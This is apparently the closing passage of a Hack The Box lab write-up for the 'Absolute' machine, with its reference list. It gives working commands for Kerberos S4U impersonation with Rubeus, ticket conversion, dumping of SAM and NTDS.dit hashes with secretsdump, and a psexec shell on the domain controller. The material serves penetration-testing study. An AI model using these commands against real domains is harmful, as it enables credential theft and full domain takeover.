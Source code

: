 ![](https://i.imgur.com/DxtSE9f.png)

Having the ticket we can now impersonate as the administrator user with a S4U

```bash
.\Rubeus.exe s4u /self /user:DC$ /impersonateuser:administrator /msdsspn:host/dc.absolute.htb /ticket:kirbi_ticket
```

![](https://i.imgur.com/YvaDXmg.png)

Converting the administrator's .kirbi ticket to ccache so that we can use it with impacket scripts

```bash
echo "kirbiticket" | base64 -d > kirbiticket.kirbi
```

![](https://i.imgur.com/3mZZRol.png)

Converting it into ccache ticket with `ticketconverter`

```bash
ticketConverter.py kirbiticket.kirbi ticket.ccache
```

![](https://i.imgur.com/9AgazpC.png)

![](https://i.imgur.com/uc18v2a.png)

Having the administrator's TGT we can dump the SAM and NTDS.dit hashes

```bash
secretsdump.py absolute.htb/administrator@dc.absolute.htb -k -no-pass
```

![](https://i.imgur.com/VXZrWH2.png)

And can use any of the execs from impacket, I used `psexec` to get a shell

```bash
psexec.py -k -no-pass absolute.htb/administrator@dc.absolute.htb 
```
![](https://i.imgur.com/vzsH139.png)

## References

- https://github.com/urbanadventurer/username-anarchy
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://python-poetry.org/docs/#installing-with-the-official-installer
- https://wiki.porchetta.industries/getting-started/installation/installation-on-unix
- https://itnursery.com/ldapsearch-and-kerberos-authentication/
- https://twitter.com/PizazzJazz/status/1574360409846337537?t=uQ32qRfo2Cl5M5lCDJCGuA&s=19
- https://github.com/jazzpizazz/BloodHound.py-Kerberos
- https://www.thehacker.recipes/ad/movement/dacl/grant-rights
- https://www.thehacker.recipes/ad/movement/dacl/grant-ownership
- https://twitter.com/_nwodtuhs/status/1525527323667218432?lang=en
- https://github.com/ShutdownRepo/impacket/tree/owneredit
- https://github.com/ShutdownRepo/impacket/tree/dacledit
- https://community.spiceworks.com/how_to/160048-work-with-ntp-via-powershell
- https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting
- https://github.com/ShutdownRepo/pywhisker
- https://github.com/dirkjanm/PKINITtools
- https://github.com/skelsec/minikerberos
- https://github.com/edenhill/librdkafka/issues/2117
- https://forum.hackthebox.com/t/simple-winrm-shell-via-kerberos/1870
- https://stackoverflow.com/questions/18760281/how-do-i-increase-the-scrollback-buffer-size-in-tmux
- https://github.com/DarkCoderSc/run-as
- https://notes.vulndev.io/notes/redteam/payloads/windows